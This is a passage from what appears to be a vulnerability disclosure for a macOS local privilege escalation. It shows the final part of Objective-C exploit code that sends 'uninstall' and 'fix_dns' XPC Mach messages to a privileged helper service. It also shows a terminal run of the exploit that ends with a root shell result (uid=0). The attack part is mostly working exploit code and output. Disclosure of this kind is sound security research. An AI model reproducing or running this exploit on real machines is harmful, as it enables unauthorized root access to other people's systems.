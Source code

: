```c

    NSLog(@"[i] Sending \"fix_dns\" Mach message");
    xpc_connection_send_message_with_reply(
        conn, 
        message, 
        NULL, 
        ^(xpc_object_t object){
            NSLog(@"[INFO] Sent request\n");
            printf("%s\n", xpc_copy_description(object));
        }
    );

    sleep(1);

    NSLog(@"[i] Viewing the results of code execution");
    system("/bin/cat /tmp/acvc.pwn");

    return 0;
}
```

Running the exploit:
```bash
$ ./lpe
2023-12-31 05:11:06.465 lpe[53559:1136336] [INFO] Start
2023-12-31 05:11:06.466 lpe[53559:1136336] [i] Setting up mach xpc dictionary "uninstall"
2023-12-31 05:11:06.466 lpe[53559:1136336] [i] Connecting to Mach service
2023-12-31 05:11:06.466 lpe[53559:1136336] [i] Setting up event handler
2023-12-31 05:11:06.467 lpe[53559:1136336] [i] Sending "uninstall" Mach message
2023-12-31 05:11:06.595 lpe[53559:1136338] [INFO] Sent request
 { count = 1, transaction: 0, voucher = 0x0, contents =
        "uninstallStatus" => : 4
}
2023-12-31 05:11:07.472 lpe[53559:1136336] [i] Creating exploit directory
2023-12-31 05:11:07.484 lpe[53559:1136336] [i] Creating exploit script
2023-12-31 05:11:07.494 lpe[53559:1136336] [i] Marking as executable
2023-12-31 05:11:07.510 lpe[53559:1136336] [i] Setting up mach xpc dictionary "fix_dns"
2023-12-31 05:11:07.510 lpe[53559:1136336] [i] Sending "fix_dns" Mach message
2023-12-31 05:11:07.537 lpe[53559:1136338] [INFO] Sent request
 { count = 1, transaction: 0, voucher = 0x0, contents =
        "fixDnsStatus" => : 0
}
2023-12-31 05:11:08.513 lpe[53559:1136336] [i] Viewing the results of code execution
Sun Dec 31 05:11:07 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),10
0(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
```
